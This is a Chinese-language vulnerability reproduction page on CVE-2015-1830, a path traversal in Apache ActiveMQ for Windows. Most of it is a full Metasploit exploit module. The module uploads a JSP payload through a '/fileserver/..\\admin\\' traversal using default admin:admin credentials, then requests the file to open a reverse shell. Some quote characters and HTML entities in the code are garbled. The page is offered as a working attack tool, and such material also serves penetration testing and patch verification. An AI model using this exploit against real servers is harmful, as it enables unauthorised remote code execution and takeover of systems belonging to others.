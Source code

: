 ```yaml
---
title: "（CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce"
id: zhfly2799
---
```


# （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce

## 一、漏洞简介

Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。

## 二、漏洞影响

ActiveMQ 5.11.1

## 三、复现过程

### msf poc

> 直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote

Rank = ExcellentRanking

include Msf::Exploit::Remote::HttpClient

def initialize(info = {})

super(update_info(info,

‘Name’           => ‘Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload’,

‘Description’    => %q{

This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache

ActiveMQ 5.x before 5.11.2 for Windows.

```
 The module tries to upload a JSP payload to the /admin directory via the traversal
    path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
    credentials admin:admin (or other credentials provided by the user). It then issues
    an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
    payload and obtain a shell.
  },
  'Author'          =&gt;
    [
      'David Jorm',     # Discovery and exploit
      'Erik Wynter'     # @wyntererik - Metasploit
    ],
  'References'     =&gt;
    [
      [ 'CVE', '2015-1830' ],
      [ 'EDB', '40857'],
      [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
    ],
  'Privileged'     =&gt; false,
  'Platform'    =&gt; %w{ win },
  'Targets'     =&gt;
    [
      [ 'Windows Java',
        {
          'Arch' =&gt; ARCH_JAVA,
          'Platform' =&gt; 'win'
        }
      ],
    ],
  'DisclosureDate' =&gt; '2015-08-19',
  'License'        =&gt; MSF_LICENSE,
  'DefaultOptions'  =&gt; {
    'RPORT' =&gt; 8161,
    'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
    },
  'DefaultTarget'  =&gt; 0))

register_options([
  OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
  OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
  OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
  OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
]) 
```

end

def check

print_status(“Running check…”)

testfile = Rex::Text::rand_text_alpha(10)

testcontent = Rex::Text::rand_text_alpha(10)

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
})

res1 = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'GET'
})

if res1 &amp;&amp; res1.body.include?(testcontent)
  send_request_cgi(
    opts = {
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'DELETE'
    },
    timeout = 1
  )
  return Exploit::CheckCode::Vulnerable
end

Exploit::CheckCode::Safe 
```

end

def exploit

print_status(“Uploading payload…”)

testfile = Rex::Text::rand_text_alpha(10)

vprint_status(“If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp”) #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; payload.encoded
})

print_status("Payload sent. Attempting to execute the payload.")
res = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
  },
  'method'    =&gt; 'GET'
})
if res &amp;&amp; res.code == 200
  print_good("Payload executed!")
else
  fail_with(Failure::PayloadFailed, "Failed to execute the payload")
end 
``` `end

end` 
```